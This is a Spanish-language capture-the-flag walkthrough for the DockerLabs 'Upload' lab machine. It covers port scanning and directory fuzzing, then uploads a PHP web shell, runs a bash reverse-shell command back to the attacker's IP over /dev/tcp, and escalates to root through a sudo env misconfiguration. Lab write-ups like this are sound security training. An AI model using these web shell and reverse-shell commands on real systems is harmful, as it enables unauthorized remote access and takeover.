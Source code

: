 ![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-banner.png)

[Maquina](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)

[Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos con un escaneo de `nmap` a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Solo hay un puerto abierto, el **puerto 80**. Este corresponde a un servicio http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un escaneo sobre este con un conjunto de scripts basicos de reconocimiento que trae por defecto `nmap` con el parametro `-sCV`.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
Guiandonos por el escaneo podemos ver que dentro del **puerto 80** se aloja una pagina web que, tal parece, nos deja subir archivos al servidor.

Visualizamos la pagina web.

![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo *php* con el que podamos ejecutar comandos dentro de la maquina atraves de un paramentro. Y es justo lo que haremos.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

Despues de crear el archivo lo subiremos al servidor.

Ahora debemos encontrar la ruta en donde ha sido guardado nuestro archivo. Para ello, haremos uso de `wfuzz` para encontrar esa ruta en donde fue guardado nuestro archivo.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

`Wfuzz` nos ha econtrado un directorio llamado **"uploads"**.

Si revisamos podremos ver que ahi se encuntra alojado nuestro archivo *test.php*.

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando `id` en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando `id` por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con `netcat` por el **puerto 443**.
```shell
nc -nlvp 443
```
Y hacemos la siguiente peticion cambiando el caracter `&` por su expresion en URL(`%26`), para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario *www-data*.

## Escalada de privilegios

Ejecutamos un `sudo -l` para ver si existe algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que podemos ejecutar el comando `env` como *root*. Por ende, ejecutamos una **bash** atraves del comando `env` como *root*.
```shell
sudo env /bin/bash
```

Y comprobamos con el comando `whoami` o `id` que ya somos usuario *root*.

![image](https://github.com/Crisstianpd/CTFs/blob/f45ffec0d097da4e06089b4f4224cc077d4140cd/DockerLabs/Easy/Upload/imgs/upload-img5.png)

##

Y de esta forma hemos resuelto la maquina Upload de DockerLabs.






